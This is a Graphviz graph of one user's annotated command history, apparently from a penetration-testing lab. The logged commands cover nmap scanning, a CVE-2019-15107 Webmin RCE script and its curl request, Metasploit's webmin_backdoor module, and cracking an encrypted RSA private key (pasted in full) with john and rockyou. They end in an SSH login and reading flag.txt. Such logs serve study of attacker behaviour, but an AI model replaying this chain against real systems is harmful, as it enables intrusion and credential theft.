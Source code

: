 // creating graph for user: 71
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="metasploit U"]
	2 [label="metasploit U"]
	3 [label="msfconsole M2 "]
	4 [label="msfconsole U"]
	5 [label="sudo service postgresql start U"]
	6 [label="msfdb init U"]
	7 [label="msfconsole U"]
	8 [label="db_nmap 172.18.1.5 A1 "]
	9 [label="help U"]
	10 [label="analyze U"]
	11 [label="show exploits M8 "]
	12 [label="cd Downloads/ U"]
	13 [label="ls A10 "]
	14 [label="chmod A15 "]
	15 [label="chmod +x 47293.sh A15 "]
	16 [label="./47293.sh U"]
	17 [label="vi 47293.sh U"]
	18 [label="cd Downloads/ U"]
	19 [label="./47293.sh 47293.sh http://172.18.1.5:10000/ U"]
	20 [label="./47293.sh 47293.sh http://172.18.1.5:10000 U"]
	21 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	22 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	23 [label="cat 47293.sh A1 A9 A11 A12 A17 "]
	24 [label="sh 47293.sh 47293.sh http://172.18.1.5:10000 U"]
	25 [label="vim CVE-2019-15107.sh U"]
	26 [label="sh CVE-2019-15107.sh U"]
	27 [label="sh CVE-2019-15107.sh #!/bin/sh U"]
	28 [label="FLAG=f3a0c13c3765137bcde68572707ae5c0 U"]
	29 [label="URI=$1; U"]
	30 [label="echo -n Testing for RCE (CVE-2019-15107) on $URI: ; U"]
	31 [label="curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id A1 A4 A9 A11 A12 A17 "]
	32 [label="if [ $? -eq 0 ]; then echo '033[0;31mVULNERABLE!033[0m'; else echo '033[0;32mOK! (target is not vulnerable)033[0m'; fi A10 "]
	33 [label="ls A10 "]
	34 [label="cat CVE-2019-15107.sh A1 A9 A11 A12 A17 "]
	35 [label="cat CVE-2019-15107.sh http://172.18.1.5:10000 A1 A9 A11 A12 A17 "]
	36 [label="sh CVE-2019-15107.sh http://172.18.1.5:10000 U"]
	37 [label="msfconsole U"]
	38 [label="exit U"]
	39 [label="msfcli U"]
	40 [label="msfconsole U"]
	41 [label="show exploit A5 "]
	42 [label="search CVE-2019-15107 A3 "]
	43 [label="use exploit/unix/webapp/webmin_backdoor  M4 "]
	44 [label="check A7 "]
	45 [label="set RHOSTS https://localhost:10000 M6 "]
	46 [label="set RHOST https://localhost:10000 U"]
	47 [label="show options M5 "]
	48 [label="set RHOST 172.18.1.5 U"]
	49 [label="show options U"]
	50 [label="check A7 "]
	51 [label="exploit U"]
	52 [label="check A7 "]
	53 [label="exploit U"]
	54 [label="set LHOST 0.0.0.0 U"]
	55 [label="exploit U"]
	56 [label="show U"]
	57 [label="show options U"]
	58 [label="exploit U"]
	59 [label="set LHOST 10.1.135.83 U"]
	60 [label="exploit U"]
	61 [label="msfconsole U"]
	62 [label="check A7 "]
	63 [label="exit U"]
	64 [label="use exploit/unix/webapp/webmin_backdoor U"]
	65 [label="set RHOST 172.18.1.5 U"]
	66 [label="set LHOST 10.1.135.83 U"]
	67 [label="check A7 "]
	68 [label="ssh 172.18.1.5 A16 "]
	69 [label="ssh 172.18.1.5:39680 A16 "]
	70 [label="ssh localhost:4444 A16 "]
	71 [label="ssh 127.0.0.1:4444 A16 "]
	72 [label="ssh 127.0.0.1 -p 4444 A16 "]
	73 [label="msfconsole U"]
	74 [label="use exploit/unix/webapp/webmin_backdoor  U"]
	75 [label="set RHOST 172.18.1.5 U"]
	76 [label="set LHOST 10.1.135.83 U"]
	77 [label="check A7 "]
	78 [label="exploit U"]
	79 [label="ssh 172.18.1.5 A16 "]
	80 [label="ssh kocm@172.18.1.5 A16 "]
	81 [label="ssh 172.18.1.5 A16 "]
	82 [label="vi key U"]
	83 [label="john key A14 "]
	84 [label="john .-----BEGIN RSA PRIVATE KEY----- A14 "]
	85 [label="Proc-Type: 4 U"]
	86 [label="DEK-Info: AES-128-CBC U"]
	87 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	88 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	89 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	90 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	91 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	92 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	93 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	94 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	95 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	96 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	97 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	98 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	99 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	100 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	101 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	102 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	103 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	104 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	105 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	106 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	107 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	108 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	109 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	110 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	111 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	112 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	113 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	114 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	115 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	116 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	117 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	118 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	119 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	120 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	121 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	122 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	123 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	124 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	125 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	126 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	127 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	128 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	129 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	130 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	131 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	132 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	133 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	134 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	135 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	136 [label="john --wordlist=-----BEGIN RSA PRIVATE KEY----- M14 "]
	137 [label="Proc-Type: 4 U"]
	138 [label="DEK-Info: AES-128-CBC U"]
	139 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	140 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	141 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	142 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	143 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	144 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	145 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	146 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	147 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	148 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	149 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	150 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	151 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	152 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	153 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	154 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	155 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	156 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	157 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	158 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	159 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	160 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	161 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	162 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	163 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	164 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	165 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	166 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	167 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	168 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	169 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	170 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	171 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	172 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	173 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	174 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	175 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	176 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	177 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	178 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	179 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	180 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	181 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	182 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	183 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	184 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	185 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	186 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	187 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	188 [label="clear U"]
	189 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key U"]
	190 [label="/usr/share/john/ssh2john.py key A16 "]
	191 [label="/usr/share/john/ssh2john.py key > key2 A16 "]
	192 [label="john key@ U"]
	193 [label="john key2 U"]
	194 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key@ U"]
	195 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2 U"]
	196 [label="cp key ./.ssh/id_rsa A16 "]
	197 [label="cd U"]
	198 [label="cd .ssh A16 "]
	199 [label="cat id_rsa M12 "]
	200 [label="ssh 10.1.17.4 A16 "]
	201 [label="ssh eve@sh 10.1.17.4 M16 "]
	202 [label="ssh eve@10.1.17.4 U"]
	203 [label="ls A10 "]
	204 [label="openssl U"]
	205 [label="openssl rsa -in id_rsa -out key U"]
	206 [label="ls A10 "]
	207 [label="cat key A1 A9 A11 A17 "]
	208 [label="mv key id_rsa U"]
	209 [label="ssh eve@10.1.17.4 U"]
	210 [label="ls A10 "]
	211 [label="cd top-secret/ U"]
	212 [label="ls A10 "]
	213 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	rankdir=LR
}
